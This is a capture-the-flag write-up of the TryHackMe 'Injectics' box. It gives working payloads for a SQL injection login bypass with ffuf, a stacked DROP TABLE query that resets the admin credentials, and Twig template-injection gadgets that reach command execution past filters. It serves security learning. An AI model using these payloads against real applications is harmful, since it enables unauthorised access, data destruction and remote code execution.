







## Overview

**Injectics** ([TryHackMe](https://tryhackme.com/room/injectics)) is a PHP/Symfony box that's all about injection. A SQLi auth bypass gets us in as a low-priv `dev` user. Then a leaked email hands us the trick for admin: a background service restores the `users` table with default credentials whenever it's deleted, so we just `DROP TABLE users` and log back in with the leaked admin password. Admin unlocks a Twig profile page that's vulnerable to SSTI, and once we get past the filters we've got RCE and the second flag.

### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap`, `dirsearch`, browser dev tools |
| SQLi discovery | `sqlmap` (came up empty), `ffuf` + SecLists |
| Request tampering | Burp Suite (Repeater) |
| SSTI / RCE | manual Twig payload enumeration |

---

## Enumeration

### Port scan

`nmap -sV -T4 10.113.163.87`

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

SSH and an Apache instance. Everything interesting is going to be on 80.

### The site

The homepage is an "Injectics 2024" leaderboard, but it's clearly unfinished — the header links go nowhere and the only thing that actually responds is the login page.





It's a `.php` app and the only cookie is `PHPSESSID`, so there's no framework session token or JWT to pick at. Time to read what the page ships to the browser.

`script.js` does client-side login validation, and it's the kind of thing that tells you more than the developer intended:

```js
$("#login-form").on("submit", function(e) {
    e.preventDefault();
    var username = $("#email").val();
    var password = $("#pwd").val();

    const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
    for (let keyword of invalidKeywords) {
        if (username.includes(keyword)) {
            alert('Invalid keywords detected');
            return false;
        }
    }
    // ...
});
```

So the "protection" against SQL injection is a keyword blocklist running in the browser. That's not protection at all — it's a hint that the server-side query is unparameterised, and we can skip the check entirely by talking to the backend directly instead of using the form.

Two more things from the client side worth writing down: there's a separate admin login endpoint at `/adminLogin007.php`, and the index page has a couple of developer comments:

```html
<!-- Website developed by John Tim - dev@injectics.thm-->
<!-- Mails are stored in mail.log file-->
```

### mail.log

The comment names a log file, so before reaching for directory fuzzing it's worth just asking for `/mail.log` directly. It's there, and it's the whole game plan in one message:

```text
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

... I have enabled a special service called Injectics. This service
continuously monitors the database ... I have configured the service to
automatically insert default credentials into the `users` table if it is
ever deleted or becomes corrupted ... scheduled to run every minute.

Here are the default credentials that will be added:
```

| Email | Password |
|---|---|
| superadmin@injectics.thm | `<SUPERADMIN_PASS>` |
| dev@injectics.thm | `<DEV_PASS>` |

Two takeaways. We have default credentials for both a `dev` and a `superadmin` account, and there's a service that will *rewrite the users table back to these values* if the table ever gets deleted. Park that second point — it becomes the privilege escalation later.

The obvious move first: just log in with those credentials.

They don't work. Whatever's in the database right now isn't the default set, so the leaked passwords are dead on arrival. Worth the thirty seconds to try, but it's a dead end for now — I kept the credentials around precisely because of that "restore on delete" behaviour.

> The login form posts to a backend handler, not to itself:
> ```text
> POST /functions.php
> username=1&password=1&function=login
> ```
> That `functions.php` endpoint is what we actually attack — the client-side keyword filter never runs against it.
{: .prompt-info }

### Directory brute force

With `dirsearch` to fill in the map:

```text
200  /composer.json
200  /composer.lock
302  /dashboard.php
301  /flags/
200  /login.php
200  /mail.log
301  /phpmyadmin/
403  /vendor/
```

`composer.lock` tells us what's under the hood — Symfony, pulling in Twig:

```json
{ "name": "twig/twig", "version": "v2.14.0" }
```

Knowing it's Symfony/Twig, I briefly wondered whether Doctrine ORM would make classic SQL injection a non-starter — a proper ORM would parameterise everything. But the login handler is a hand-rolled `functions.php`, not something going through the ORM, so that reasoning didn't hold and SQLi was still very much on the table. The Twig detail I filed away for later; it's the reason the SSTI stage exists.

There's a `/flags/` directory and a `phpmyadmin` install too. Both get revisited.

---

## Foothold — SQL injection auth bypass

First instinct was to let `sqlmap` do the work against `functions.php`. On default settings it found nothing — no injectable parameter, no technique. Rather than start hand-tuning tamper scripts and levels, I switched to brute-forcing known auth-bypass strings from a SecLists wordlist with `ffuf`, testing both parameters at once:

```bash
ffuf -u "http://10.113.163.87/functions.php" -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=W1&password=W2&function=login" \
  -w sqli.auth.bypass.txt:W1 \
  -w sqli.auth.bypass.txt:W2 \
  -mode clusterbomb \
  -mc all -ac
```

`W1`/`W2` fuzz the username and password independently, and `-ac` auto-calibrates so the failed-login baseline gets filtered out. It landed on a hit almost immediately:

```text
[Status: 200, Size: 150, Words: 2, Lines: 1]
  W1: admin' --
  W2: ' or 1=1
```

Replaying that by hand in Burp confirms it:

```http
username=admin' --&password=' or 1=1&function=login
```

```json
{"status":"success","message":"Login successful","is_admin":"true",
 "first_name":"dev","last_name":"dev","redirect_link":"dashboard.php?isadmin=false"}
```

We're in.



Note the response, though: even with `is_admin":"true"` in the JSON, the redirect is `dashboard.php?isadmin=false` and the session it hands back is the `dev` user. The bypass returns the first matching row, which is the low-priv account. So this gets us a foothold but not the admin panel — that needs a different approach.

---

## Privilege escalation — dropping the users table

The dashboard is the leaderboard again, now with **Edit** controls. Editing a row hits `edit_leaderboard.php?rank=1&country=USA`, and the update posts the medal counts back:



Appending a single quote to each field in Burp and watching the responses, a clean edit returns a `302` back to `dashboard.php`:

```http
rank=1&country=&gold=22'&silver=21'&bronze=12345'
```

So these fields feed straight into a SQL `UPDATE`. Now the mail.log detail pays off. I don't need to extract or crack anything from this table — I need to *destroy* it, because the Injectics service will rebuild it with credentials I already have. A stacked query in the `gold` field does it:

```sql
rank=1&country=USA&gold=1; DROP TABLE users; --&silver=1&bronze=1
```

The site immediately breaks with an error that confirms the plan is working:

```text
Seems like database or some important table is deleted.
InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

> This is destructive on purpose — you're deleting the application's user table. It only works here because the box is built to auto-restore it. Don't reach for `DROP TABLE` on anything you can't put back.
{: .prompt-warning }

Wait a minute or two for the scheduled service to run, then log in as `superadmin@injectics.thm` with the default password from the leak — which is now the live password again. This time it's a real admin session, and the first flag is sitting on the dashboard.



> **Flag 1** (admin panel): `THM{...}`
{: .prompt-info }

---

## Server-side template injection

Admin unlocks a **Profile** page in the nav that wasn't there before.


The dashboard greets you with `Welcome, admin!`, and that greeting is built from the profile's first name. Since we already know the stack is Twig, that's a textbook SSTI setup — user-controlled data rendered through the template engine. Set the first name to a Twig expression:

```twig
{{7*'7'}}
```

Reload the dashboard:



`Welcome, 49!` — the multiplication got evaluated server-side. Confirmed Twig SSTI.

### Fighting the filters

From `{{7*7}}` to command execution is normally a short hop, so I worked through the standard Twig gadgets from HackTricks. Most of them are blocked here. The `registerUndefinedFilterCallback` route — usually the reliable one — throws:

```text
Tag "import" is not allowed in "__string_template__..."
```

and the common one-liners using `filter`, `exec`, and friends are filtered out too. So this turned into enumeration: work through the RCE primitives until something isn't on the blocklist. After a handful of attempts, `passthru` gets through where `filter`/`exec` don't:

```twig
{{ ['ls',' ']|sort('passthru') }}
```



That's command execution — the `sort` filter is being used to call `passthru()` on our array of arguments. With `ls` working I could list `/var/www/html/flags/` and grab the flag filename, then swap `passthru` for `readfile` to dump it:

```twig
{{ ['/var/www/html/flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt',' ']|sort('readfile') }}
```


> **Flag 2** (SSTI / RCE): `THM{...}`
{: .prompt-info }

That's arbitrary command execution as the web user, so the box is effectively done — the `/flags/` directory and `phpmyadmin` install noted during enumeration were just alternate routes to the same place.

---

## Conclusion

Injectics chains two injection flaws, with a nicely evil twist in the middle:

1. **Client-side-only input filtering** — the login form's SQL keyword blocklist runs in JavaScript, so it does nothing to a request sent straight to `functions.php`.
2. **SQL injection auth bypass** — the login query concatenates input, so `admin' --` / `' or 1=1` logs us in as the first user (`dev`) with no valid password.
3. **Information disclosure** — a world-readable `mail.log` leaks default credentials *and* documents a service that restores them on demand.
4. **SQL injection → forced credential reset** — a stacked query in the leaderboard editor drops the `users` table, and the auto-restore service rebuilds it with the leaked default admin password, handing over the admin account.
5. **Twig SSTI** — the profile name is rendered unescaped, and although most RCE gadgets are filtered, `sort('passthru')` / `sort('readfile')` still reach PHP functions for full command execution.
